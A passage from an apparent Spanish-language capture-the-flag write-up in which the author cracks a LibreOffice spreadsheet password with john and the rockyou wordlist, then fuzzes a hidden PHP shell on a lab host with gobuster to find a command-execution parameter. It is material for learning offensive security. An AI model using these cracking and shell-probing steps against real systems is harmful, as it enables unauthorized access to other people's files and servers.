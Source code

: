 Pues por aquí tal y como dice la pista, no vamos a ningún sitio.

Vamos a extraer el hash del fichero .ods:


### Fuerza bruta a fichero .ods

~~~bash
❯ libreoffice2john shellfile.ods > hash
~~~

Y ahora le aplicamos fuerza bruta para crackear la contraseña:

~~~
❯ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (ODF, OpenDocument Star/Libre/OpenOffice [PBKDF2-SHA1 256/256 AVX2 8x BF/AES])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (crypto [0=Blowfish 1=AES]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
john11           (shellfile.ods)     
1g 0:00:01:04 DONE (2023-03-02 02:04) 0.01538g/s 254.5p/s 254.5c/s 254.5C/s lachina..emmanuel1
Use the "--show --format=ODF" options to display all of the cracked passwords reliably
Session completed. 
~~~

Abrimos el fichero con la contraseña y nos encontramos lo siguiente:

![](/assets/images/arroutada/path.png){: .align-center}

Parece que tenemos un nuevo recurso oculto, si lo cargamos, no vemos nada en pantalla, pero lo ejecuta correctamente con un 200. Por tanto, vamos a fuzzear de nuevo en busca de un parámetro que nos permita ejecutar comandos:

~~~~bash
❯ gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -u 192.168.1.135/thejabasshell.php?FUZZ=whoami --exclude-length 0,301
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://192.168.1.135/thejabasshell.php?FUZZ=whoami
[+] Method:           GET
[+] Threads:          200
[+] Wordlist:         /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Exclude Length:   0,301
[+] User Agent:       gobuster/3.5
[+] Timeout:          10s
~~~~